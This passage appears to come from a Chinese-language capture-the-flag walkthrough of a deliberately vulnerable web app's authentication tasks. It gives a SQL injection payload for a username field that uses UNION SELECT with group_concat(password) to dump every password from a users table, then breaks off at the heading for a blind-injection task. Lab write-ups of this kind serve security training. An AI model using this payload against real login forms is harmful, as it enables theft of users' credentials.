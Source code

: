 *******![](img/1d583613e383a6459528c1a2aba4846f.png)**************![](img/30438f4776a3ab91c3cbe842e0ac045c.png)*******

*******但是，前面的语句只会返回一个密码。 [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) 函数可以帮助实现同时转储所有密码的目的。*******

*******通过将以下代码插入用户名字段:*******

```
*****' UNION SELECT 1,group_concat(password) FROM users-- -*****
```

*******![](img/a6920612675818281abfccec0e618918.png)*******

*******嘣！我们得到了**标志*********

# *****任务 6:易受攻击的启动:被破坏的认证 3(盲目注入)*****
